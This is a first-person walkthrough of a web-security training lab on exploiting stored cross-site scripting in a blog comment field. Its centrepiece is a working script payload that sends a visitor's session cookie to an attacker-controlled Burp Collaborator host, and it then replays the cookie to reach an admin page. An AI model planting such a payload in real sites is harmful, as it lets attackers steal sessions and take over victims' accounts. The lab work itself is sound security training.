

# Lab: Exploiting cross-site scripting to steal cookies

> Lab Objective: exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

- Firstly, Enter simple input like this `test'"><` in Blog Comment functionality, then search for the input in the Source Code.
  

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing page source code, I've noticed that the comment input field is the only field where these `'"><` characters are interpreted normally, while the other input fields the previous characters are html encoded.
  

- Therefore, I'll inject `<script>alert(0)</script>` in the comment input field.

- The `alert(0)` function is executed successfully.
  

- In order, to get the victim cookie, I'll use this payload:
  - Which sends the cookie of the user who visits the blog post comments to a server I control (Burp Collaborator).
  - It's done automatically without any user interaction.

```html
<script>
  fetch("https://jm9o8lmudtucsx2v9tk4qrohq8wzkq8f.oastify.com", {
    method: "POST",
    mode: "no-cors",
    body: JSON.stringify({ cookie: document.cookie }),
  });
</script>
```

- When submitting that comment, and waiting for the user to visit the blog post comments.
  

- The request sent to Burp Collaborator, which contains the cookie value of the victim user.
  

- Go the `my-account` page, stop intercept the request with the burp, then add the cookie values received in the Burp Collaborator Tab, and forward that request.
  

- Finally. I've accessed the Admin Page, and the lab is solved.
  

---
